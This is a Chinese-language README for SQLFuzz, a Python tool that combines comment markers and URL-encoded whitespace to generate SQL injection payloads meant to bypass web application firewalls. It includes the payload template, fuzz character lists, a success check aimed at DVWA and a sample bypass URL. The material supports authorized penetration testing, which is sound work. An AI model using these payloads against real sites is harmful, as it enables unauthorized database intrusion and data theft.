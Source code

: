 # SQLFuzz

SQLFuzz 是一个简单而强大的 SQL 注入 Fuzz 工具，用于测试和绕过 WAF（Web 应用防火墙）的防护措施。该工具通过组合各种特殊字符和编码来生成 SQL 注入 payload，帮助安全研究人员发现 SQL 注入漏洞。

## 功能特点

- 自动生成大量 SQL 注入 Fuzz 测试用例
- 支持多种特殊字符和编码组合
- 可自定义测试目标和 payload 模板
- 自动检测成功绕过 WAF 的 payload 并保存结果
- 实时显示测试进度和状态

## 使用方法

### 前提条件

确保已安装 Python 和所需的依赖库：

```bash
pip install requests
```

### 运行方式

```bash
python sqlfuzz.py
```

### 配置说明

在使用前，您需要修改脚本中的以下参数：

1. `url_start` - 设置为您要测试的目标 URL
   ```python
   url_start = "http://your-target-website.com/vulnerable_page.php?id=1"
   ```

2. `headers` - 根据需要自定义请求头，包括 User-Agent、Cookie 等
   ```python
   headers = {
       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36...",
       "Cookie": "your-cookies-here"
   }
   ```

3. `payload` - 可以修改 payload 模板，根据目标应用的特性进行调整
   ```python
   payload = "'/**//*!*/and/*!*/"+a+b+c+"/**/'1'='1"
   ```

## 工作原理

1. 通过组合各种特殊字符和编码（如注释符、空白字符等）生成 fuzz 测试用例
2. 将生成的特殊字符序列插入到预定义的 SQL 注入载荷模板中
3. 向目标发送请求并分析响应
4. 识别成功的注入尝试（绕过 WAF）并将结果保存到 `Results.txt` 文件

## 成功标志

工具通过检查响应中是否包含特定字符串来确定注入是否成功。例如：

```python
if "First name: admin" in res.text:
    print("\033[0;33m[*]Find BypassWAF Payload:\033[0m"+url)
```

您可以根据目标应用的特性修改此检测条件。

## 注意事项

- 本工具仅用于合法的安全测试，使用前请确保已获得授权
- 不当使用可能导致法律问题，请负责任地使用
- 建议在测试环境中使用，如 DVWA（Damn Vulnerable Web Application）

## 示例输出

成功的测试结果将显示如下，并保存到 `Results.txt` 文件中：

```
[*]Find BypassWAF Payload: http://target-url/page.php?id=1'/**//*!*/and/*!*/+/**/'1'='1&Submit=Submit#
```

## 自定义扩展

您可以通过修改 `fuzz_zs`、`fuzz_sz` 和 `fuzz_ch` 列表来添加更多的测试字符，从而扩展测试范围：

```python
fuzz_zs = ['/*','*/','/*!','/**/','?','/','*','=','`','!','%','_','-','+']
fuzz_sz = ['']
fuzz_ch = ["%09","%0a","%0b","%0c","%0d","%20","%a0"]
```

也可以增加嵌套层数，创建更复杂的组合：

```python
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                # 四层嵌套...
``` 